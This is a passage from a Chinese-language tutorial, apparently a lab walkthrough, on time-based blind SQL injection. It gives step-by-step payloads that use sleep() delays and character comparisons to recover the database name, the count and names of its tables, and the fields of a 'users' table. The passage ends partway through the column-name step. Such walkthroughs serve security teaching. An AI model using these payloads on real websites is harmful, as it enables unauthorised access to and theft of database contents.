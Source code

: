 说明数据库名长度为4个字符。

接着采用二分法猜解数据库名：

>输入`1’ and if(ascii(substr(database(),1,1))>97,sleep(5),1)#` 明显延迟
>
>…
> 
>输入`1’ and if(ascii(substr(database(),1,1))<100,sleep(5),1)#` 没有延迟
>
>输入`1’ and if(ascii(substr(database(),1,1))>100,sleep(5),1)# `没有延迟

说明数据库名的第一个字符为小写字母d。

重复上述步骤，即可猜解出数据库名。

#### 3.猜解数据库中的表名

首先猜解数据库中表的数量：
>输入`1’ and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)#` 没有延迟
>
>输入`1’ and if((select count(table_name) from information_schema.tables where table_schema=database() )=2,sleep(5),1)#` 明显延迟

说明数据库中有两个表。

接着挨个猜解表名：
>输入`1’ and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1,sleep(5),1) #` 没有延迟
>
>   …
>
>  输入`1’ and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9,sleep(5),1) #` 明显延迟

说明第一个表名的长度为9个字符。

采用二分法即可猜解出表名。
#### 4.猜解表中的字段名

首先猜解表中字段的数量：
>输入`1’ and if((select count(column_name) from information_schema.columns where table_name= ’users’)=1,sleep(5),1)#` 没有延迟
>
>…
>
>输入`1’ and if((select count(column_name) from information_schema.columns where table_name= ’users’)=8,sleep(5),1)# `明显延迟

说明users表中有8个字段。

接着挨个猜解字段名：
>输入`1’ and if(length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1,sleep(5),1) #` 没有延迟
>
>…
>
>输入`1’ and if(length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=7,sleep(5),1) #` 明显延迟
